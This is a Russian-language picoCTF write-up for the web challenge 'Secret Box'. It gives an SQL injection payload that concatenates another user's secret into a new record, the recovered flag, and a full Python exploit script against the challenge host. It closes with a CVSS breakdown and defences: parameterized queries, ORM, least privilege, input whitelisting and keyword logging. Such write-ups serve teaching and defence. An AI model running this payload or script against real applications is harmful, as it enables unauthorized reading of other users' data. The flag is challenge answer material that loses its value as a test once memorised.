

<!-- конвертировано из write-up.typ, tools/typ2readme.py -->

| | |
|---|---|
| **Платформа / Событие** | picoCTF Trainings |
| **Категория** | Web |
| **Сложность** | Medium 200 pts |
| **Статус** | done |
| **Дата решения** | 20 июля 2026 |
| **Ссылка на таск** | — |

# Задание

This secret box is designed to conceal your secrets.

It's perfectly secure—only you can see what's inside.

Or can you? Try uncovering the admin's secret.

Browse here, can you find the secret message?

Download the source code here.

# Решение

Смотрим исходники и видим структуру секретов:
```sql
INSERT INTO secrets(owner_id, content) VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'picoCTF{fake_flag}');
```

Создаем аккаунт и пытаемся создать секрет с SQL-payload:
```sql
' || (SELECT content FROM secrets LIMIT 1) || '
```

И получаем флаг
```text
picoCTF{sq1_1nject10n_831311dc}
```



# Полный EXPLOIT

```python
#!/usr/bin/env python3

import requests
import sys
import re

BASE_URL = "http://candy-mountain.picoctf.net:57756"

def register(session: str, username="test", password="test") -> str:
    """Регистрация нового пользователя"""
    url = f"{BASE_URL}/signup"
    data = {"username": username, "password": password}
    resp = session.post(url, data=data)
    print(f"[*] Register: {resp.status_code}")
    return resp

def login(session: str, username="test", password="test") -> str:
    """Логин и получение сессионной куки"""
    url = f"{BASE_URL}/login"
    data = {"username": username, "password": password}
    resp = session.post(url, data=data)
    print(f"[*] Login: {resp.status_code}")
    print(f"[*] Cookies: {session.cookies.get_dict()}")
    return resp

def exploit_sqli(session: str, payload: str) -> str:
    """Отправка SQL-пейлоада в поле content"""
    url = f"{BASE_URL}/secrets/create"
    data = {"content": payload}
    resp = session.post(url, data=data)
    return resp

def extract_flag(session: str) -> None:
    """Извлечение флага через SQL-инъекцию"""
    payload = "' || (SELECT content FROM secrets LIMIT 1) || '"
    
    resp = exploit_sqli(session, payload)
    
    # Ищем флаг в ответе
    match = re.search(r'picoCTF\{[^}]+\}', resp.text)
    if match:
        flag = match.group(0)
        print(f"[+] FLAG FOUND: {flag}")
        return flag
    
    print("[-] Flag not found")
    return None

def main():
    session = requests.Session()
    
    register(session)
    login(session)
    flag = extract_flag(session)
    
    if flag:
        print(f"\n[+] Success: {flag}")
    else:
        print("\n[-] Exploit failed")

if __name__ == "__main__":
    main()
```

# Категория

SQL Injection Exploit for picoCTF - Secret Box
CWE-89: Improper Neutralization of Special Elements used in SQL Command

Это **CWE-89 SQLi: Improper Neutralization of Special Elements used in SQL Command** 

**CVSS:3.1** 6.5 (Medium) `/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`

- **Вектор атаки (AV):** Сеть (N) — атака доступна удалённо
- **Сложность атаки (AC):** Низкая (L) — не требует специальных знаний или условий
- **Привилегии (PR):** Низкие (L) — атакующий должен быть авторизованным пользователем
- **Взаимодействие с пользователем (UI):** Не требуется (N)
- **Область действия (S):** Не изменяется (U)
- **Влияние на конфиденциальность (C):** Высокое (H) — возможно чтение произвольных данных из БД
- **Влияние на целостность (I):** Отсутствует (N)
- **Влияние на доступность (A):** Отсутствует (N)

# Как противостоять этому?

## 1. Использовать параметризованные запросы (Prepared Statements)

Это основное и самое надёжное решение. Никогда не подставлять пользовательский ввод напрямую в строку SQL. Использовать механизмы БД, которые отделяют код от данных.

```python
# Плохо (уязвимо)
query = f"INSERT INTO secrets(content) VALUES ('{user_input}')"

# Хорошо (защищено)
cursor.execute("INSERT INTO secrets(content) VALUES (?)", (user_input,))
```

## 2. Использовать ORM (Object-Relational Mapping)

Современные фреймворки (SQLAlchemy, Django ORM, GORM) автоматически экранируют параметры, если не использовать "сырые" запросы.

```python
# Django ORM (безопасно)
Secret.objects.create(content=user_input)

# SQLAlchemy (безопасно)
session.execute(text("INSERT INTO secrets(content) VALUES (:content)"), {"content": user_input})
```

## 3. Принцип минимальных привилегий

У пользователя БД, под которым работает веб-приложение, должны быть права только на INSERT, UPDATE и SELECT в рамках своей схемы. Доступ к таблице secrets других пользователей должен быть ограничен логикой приложения, а не SQL-запросами.

В данной задаче владельцем секрета является owner_id, поэтому запрос должен всегда фильтровать по owner_id:

```sql
-- Правильно
SELECT content FROM secrets WHERE owner_id = ? AND content = ?

-- Неправильно (уязвимо)
SELECT content FROM secrets WHERE content = ?
```

## 4. Валидация ввода (белые списки)

Вместо черных списков (blacklist), которые легко обойти, использовать белые списки (whitelist). Например, если поле должно содержать только определённый набор символов — проверять это строго, а не просто удалять слово SELECT.

```python
import re

# Белый список: только буквы и цифры
if not re.match(r'^[a-zA-Z0-9 ]+$', user_input):
    raise ValueError("Invalid input")
```

## 5. Почему не работают регулярки на запрещённые слова?

> **Warning:** Черные списки слов (SELECT, UNION) обходятся через SeLeCt, комментарии или двойное кодирование.
> Экранирование кавычек — часто забывают экранировать обратный слэш или юникод-символы, что позволяет выйти за пределы строки.
> Ошибка в регулярном выражении может полностью сломать защиту.

## 6. Логирование подозрительных запросов

Любые запросы, содержащие SQL-синтаксис в неожиданных местах, должны логироваться для обнаружения атак.

```python
import logging

if "'" in user_input or "SELECT" in user_input.upper():
    logging.warning(f"Potential SQL injection attempt: {user_input}")
```
